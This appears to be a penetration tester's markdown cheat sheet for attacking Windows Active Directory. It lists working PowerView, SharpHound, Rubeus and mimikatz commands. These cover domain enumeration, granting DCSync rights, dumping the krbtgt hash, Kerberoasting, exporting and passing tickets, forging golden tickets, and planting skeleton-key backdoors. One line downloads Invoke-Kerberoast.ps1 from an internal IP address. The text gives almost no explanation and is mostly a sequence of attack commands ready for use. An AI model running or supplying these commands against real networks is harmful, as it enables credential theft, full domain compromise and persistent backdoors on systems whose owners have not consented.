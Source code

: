 # Resources

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-enumeration-with-powerview  
https://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/  
https://www.varonis.com/blog/pen-testing-active-directory-environments-part-introduction-crackmapexec-powerview/  
https://twitter.com/_nwodtuhs/status/1451510341041594377  

### [PowerView.ps1]

https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
```
get-aduser <username>
Get-NetDomain
```

### [Sharphound to extract active directory objects]
https://github.com/BloodHoundAD/SharpHound

```
Invoke-Bloodhound -CollectionMethod All -Domain domain.local -ZipFileName file.zip
```

### [Dumping credentials from the domain controller with DCSync]

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync


1. Import the module
```
import-module .\PowerView.ps1
```

2. Add DCSync rights to user
```
Add-ObjectACL PrincipalIdentity user -Rights DCSync
```

3. Import Active Directory
```
Import-Module ActiveDirectory
```

4. Retrieve the permissions for user
```
(Get-Acl "ad:\dc=DOMAIN,dc=COM").Access | ? {$_.IdentityReference -match 'user' -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }
```

5. Use mimikatz to dump credentials
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md

```
lsadump::dcsync /user:krbtgt
```

### Kerberoast
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
```
Invoke-WebRequest -Uri 'http://10.6.86.172/Invoke-Kerberoast.ps1' -OutFile 'Invoke-Kerberoast.ps1'

Invoke-Kerberoast -OutputFormat hashcat |fl
Invoke-Kerberoast -OutputFormat hashcat | Select-Object Hash -ExpandProperty hash


Rubeus.exe kerberoast
Rubeus.exe asreproast

dumps tickets containing the hashes hashes for all accounts:

mimikatz.exe

privilege::debug

sekurlsa::tickets /export

Impersonate their tickets

kerberos::ptt <ticket>

This will the hash and security identifier needed to create a golden ticket.

lsadump::lsa /inject /name:username

Generating the golden/silver ticket:

Kerberos::golden /user:<username> /domain:controller.local /sid:<SID> /krbtgt:<NTLM> /id:<ID>

Create a backdoor

misc::cmd
misc::skeleton
```
